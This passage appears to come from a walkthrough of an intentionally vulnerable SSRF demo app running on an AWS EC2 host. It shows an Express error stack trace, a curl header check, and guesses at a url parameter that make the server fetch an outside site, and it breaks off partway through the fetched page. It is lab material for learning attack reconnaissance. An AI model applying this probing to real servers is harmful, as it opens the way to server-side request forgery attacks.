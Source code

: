 ```
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>TypeError: URL must be a string, not undefined
 &nbsp; &nbsp;at new Needle (/node_modules/needle/lib/needle.js:156:11)
 &nbsp; &nbsp;at Function.module.exports.(anonymous function) [as get] (/node_modules/needle/lib/needle.js:785:12)
 &nbsp; &nbsp;at /home/ubuntu/app/ssrf-demo-app.js:32:12
 &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)
 &nbsp; &nbsp;at next (/node_modules/express/lib/router/route.js:137:13)
 &nbsp; &nbsp;at Route.dispatch (/node_modules/express/lib/router/route.js:112:3)
 &nbsp; &nbsp;at Layer.handle [as handle_request] (/node_modules/express/lib/router/layer.js:95:5)
 &nbsp; &nbsp;at /node_modules/express/lib/router/index.js:281:22
 &nbsp; &nbsp;at Function.process_params (/node_modules/express/lib/router/index.js:335:12)
 &nbsp; &nbsp;at next (/node_modules/express/lib/router/index.js:275:10)</pre>
</body>
</html>
```

Lets check the headers too:

```
curl -I http://ec2-54-85-35-195.compute-1.amazonaws.com
```

And the response is:
```
HTTP/1.1 500 Internal Server Error
X-Powered-By: Express
Content-Security-Policy: default-src 'none'
X-Content-Type-Options: nosniff
Content-Type: text/html; charset=utf-8
Content-Length: 1031
Date: Thu, 26 Sep 2019 14:20:00 GMT
Connection: keep-alive
```

Based on these results we can be certain there is a node app running here using the express webserver. Its directly on the Internet and not hidden behind a load balancer.

It also appears it is expecting a url parameter lets see if we can fuzz that with a couple of easy guesses:

```
http://ec2-54-85-35-195.compute-1.amazonaws.com?URL=asdf.com
http://ec2-54-85-35-195.compute-1.amazonaws.com?url=asdf.com
```

Success! The second request worked! We got a response back that wasn’t an error:
```
<h1>Welcome to sethsec's SSRF demo.</h1>
<h2>I am an application. I want to be useful, so I requested: <font color="red">asdf.com</font> for you
</h2>

<html>
  <head>
    <!-- Global site tag (gtag.js) - Google Analytics -->
    <script async src="https://www.googletagmanager.com/gtag/js?id=UA-3235813-1"></script> 
    <script>
      window.dataLayer = window.dataLayer || [];
      function gtag(){dataLayer.push(arguments);}
      gtag('js', new Date());
```
